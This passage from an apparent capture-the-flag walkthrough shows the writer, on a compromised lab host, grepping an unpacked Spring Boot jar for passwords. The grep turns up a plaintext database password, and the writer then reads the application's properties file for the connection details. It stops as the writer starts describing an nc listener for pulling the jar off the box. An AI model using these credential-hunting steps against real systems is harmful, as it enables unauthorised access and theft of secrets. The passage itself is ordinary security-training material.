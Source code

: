 But I’ll save the code analysis for a nicer application. Having all these files allows me to do things like looks for passwords:

```
app@cozyhosting:/dev/shm$ grep -r password . 2>/dev/null
./BOOT-INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR
./BOOT-INF/classes/templates/login.html:                                        <input type="password" name="password" class="form-control" id="yourPassword"
./BOOT-INF/classes/templates/login.html:                                        <div class="invalid-feedback">Please enter your password!</div>
./BOOT-INF/classes/templates/login.html:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-fill">
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-line">
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-fill"
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-line"
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-fill:before { content: "\eecf"; }
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-line:before { content: "\eed0"; }
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-fill:before { content: "\eecf"; }
./BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-line:before { content: "\eed0"; }

```

The first line has a `datasource` password, which looks interesting. I’ll inspect that file:

```
app@cozyhosting:/dev/shm$ cat BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres

```

It’s the database connection information.

#### jd-gui

I’ll start `nc` listening forwarding any output to `cloudhosting-0.0.1.jar` on my host:
